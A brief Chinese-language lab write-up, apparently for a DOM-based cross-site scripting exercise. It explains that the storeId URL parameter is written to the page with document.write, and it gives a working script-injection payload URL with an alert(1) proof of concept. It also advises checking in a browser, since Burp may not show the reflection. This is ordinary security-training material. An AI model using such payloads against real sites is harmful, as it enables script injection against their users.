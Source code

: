 

![](images/BE460090435B4CF7AC89B91E8EEE39ADclipboard.png)

点击提交后从url中获取storeId参数内容，使用document.write写到页面。



所以payload:

```javascript
/product?productId=1&storeId=<option><script>alert(1)</script>
```



domxss，使用burp验证时，参数可能不会直接返回到html代码中，尽量使用浏览器验证。